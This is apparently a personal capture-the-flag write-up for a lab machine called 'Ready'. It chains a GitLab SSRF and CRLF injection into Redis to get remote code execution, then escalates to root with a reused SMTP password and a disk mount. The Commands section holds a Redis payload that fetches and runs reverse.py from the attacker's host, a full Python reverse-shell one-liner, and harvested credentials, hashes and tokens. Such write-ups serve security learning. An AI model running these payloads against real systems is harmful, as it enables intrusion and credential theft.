

Ready
=====

[](Ready%203898d80dd19740d8a157a04d052e2389/Untitled.png)

Starting with port scan nmap, it found 2 ports.

[](Ready%203898d80dd19740d8a157a04d052e2389/Untitled%201.png)

Performing web directory scan :

[](Ready%203898d80dd19740d8a157a04d052e2389/Untitled%202.png)

We can make a SSRF using Web Hooks parse IPV6 using vulnerability Gitlab
remote code execution.

[https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)

Note that, the version of git lab is the same version of CVE.

[](Read/Untitled%203.png)

Import a new project with git repo url and make request using .get, if
that doesn't work, try using other methods written in CVE.

[](Ready/Untitled%204.png)

Making request using .get we received the connection.

``` {#03d0f689-f93b-469c-81fb-ece4d3ee270a .code}
git://10.10.10.14.185:8881/%0D%0Atest%0D%0Ablah.git
```

[](Ready/Untitled%205.png)

We can add newlines using the CRLF injection and move on into creating a
payload for the RCE.

So prepare your burp suite to intercept requisitions.

[](Ready/Untitled%206.png)

Change names and try again to verify repeater.

[](Ready/Untitled%207.png)

Now let's try reverse-shell payload, just wait a short time to receive
the connection.

Create python reverse shell code and start python server to perform wget
in the machine.

In the local of the script:

``` {#a5357765-c2dd-45f5-b879-650cdbbf1a8e .code}
python3 -m http.server PORT
```

[](Ready/Untitled%208.png)

### Let's to privilege escalation {#0b39849f-9209-45c5-94f8-4df528eea261}

Getting shell full tty:

[](Ready/Untitled%209.png)

Script that the machine get in request →

[](Ready/Untitled%2010.png)

User flag in dude home folder.

[](Ready/Untitled%2011.png)

Don't exists sudo -l command, the system is Linux Gitlab ubuntu 5.4.0.

[](Ready/Untitled%2012.png)

Searching i found this archive localized at
/opt/backup/docker-compose.yml. This file contains critical information
about the server.

[](Read/Untitled%2013.png)

Possible ways to privele escalation

[https://book.hacktricks.xyz/pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

[https://redis.io/](https://redis.io/)

### Entering in database Gitlab {#628ca4fb-74c2-4002-a07a-6151495d0b33}

[](Ready/Untitled%2014.png)

[](Ready/Untitled%2015.png)

Commands to navigate in database.

``` {#e93afb5d-6a75-40e1-8719-0b935fc9e6d7 .code}
\l - list databases
\dt - connect
SELECT * FROM name;
```

[](Ready/Untitled%2016.png)

Blowfish is hard difficult to crack.

Analyzing my annotations i tried use the smtp\_password and work with
success login in root account.

The password are available at /opt/backup/gitlab.rb.

[](Ready/Untitled%2017.png)

Create temp root folder and mount sda2 in it.

``` {#d6bff1c8-4768-4291-a7d4-be6487302e74 .code}
mkdir /tmp/root 
mount /dev/sda2 /tmp/root
cat /tmp/root/root.txt
```

[](Ready/Untitled%2018.png)

### Commands {#5adf5259-e936-41be-b86a-e218201bef3d}

``` {#2c6ccbef-b953-4099-8c13-52d135c80207 .code}
10.10.10.220 
git://[0:0:0:0:0:ffff:10.10.14.185]:8881/%0D%0Atest%0D%0Ablah.git
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/test/srrf.git
stresser

 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\"
:[\"class_eval\",\"open(\'|whoami |wget http://10.10.14.185:7773/reverse.py |python3 
reverse.py|python reverse.py').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\"
:\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403
.8129568}"

 exec
 exec
 exec

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.185",7773));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2
(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

gitlab/gitlab-rails/production.log:Started GET "/recoverpassword" for 10.10.14.185 at 
2021-04-26 17:36:04 +0000
gitlab/gitlab-rails/production.log:  Parameters: {"utf8"=>"✓", "authenticity_token"=>
"[FILTERED]", "new_user"=>{"name"=>"admin", "username"=>"admina", 
"email"=>"admin@admin.con", "email_confirmation"=>"admin@admin.con", 
"password"=>"[FILTERED]"}}

===========================================================================================
PATH variables
/opt/gitlab/embedded/lib/ruby/gems/2.4.0/bin
/opt/gitlab/bin
/opt/gitlab/embedded/bin

root@599cf120c7bc

DATABASES
postgreSQL

/var/opt/gitlab/postgresql/data
/var/opt/gitlab/postgresql"
gitlab-psql
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
mattermost
# mattermost['sql_data_source'] = "mmuser:mostest@tcp(dockerhost:3306)/mattermost_test?
charset=utf8mb4,utf8"

YG65407Bjqvv9A0a8Tm_7w
volumes:
      - './srv/gitlab/config:/etc/gitlab'
      - './srv/gitlab/logs:/var/log/gitlab'
      - './srv/gitlab/data:/var/opt/gitlab'
      - './root_pass:/root_pass'
/var/opt/gitlab/redis/redis.conf
===========================================================================================
DB USERS
Administrator
email                                        | admin@example.com
encrypted_password                           | $2a$10$zzun9kmrHMdwsJZKTmwn9OZddFjwrhbaXx
                                                                                                3b2eb9l2g.1LrjZo0V2
username                                        root
notification_email                           | admin@example.com

incoming_email_token                         | 64e48z64oohhrqhlgfkqmlgxg

/opt/gitlab/embedded/bin/redis-server
```

References
[https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)[https://docs.gitlab.com/omnibus/settings/database.html](https://docs.gitlab.com/omnibus/settings/database.html)[https://www.w3resource.com/PostgreSQL/connect-to-postgresql-database.php](https://www.w3resource.com/PostgreSQL/connect-to-postgresql-database.php)[https://chartio.com/resources/tutorials/how-to-list-databases-and-tables-in-postgresql-using-psql/](https://chartio.com/resources/tutorials/how-to-list-databases-and-tables-in-postgresql-using-psql/)[https://docs.gitlab.com/ee/administration/operations/rails\_console.html](https://docs.gitlab.com/ee/administration/operations/rails_console.html)[https://www.postgresqltutorial.com/postgresql-show-tables/](https://www.postgresqltutorial.com/postgresql-show-tables/)
